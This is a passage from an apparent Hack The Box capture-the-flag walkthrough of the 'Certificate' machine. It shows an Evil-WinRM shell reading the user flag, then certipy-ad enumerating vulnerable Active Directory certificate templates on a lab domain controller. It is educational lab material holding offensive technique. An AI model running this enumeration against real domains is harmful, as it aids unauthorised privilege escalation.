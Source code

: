 ```bash
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> cat ../Desktop/user.txt
```

![htb-certificate-user-txt](images/HTB-certificate/htb-certificate-user-txt.png)

## root.txt
### lion.sk -> ryan.k
Let's check if there are vulnerable certificates
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad find -u lion.sk@certificate.htb -p '<PASSWORD_REDACTED>' -dc-ip 10.10.11.71 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
```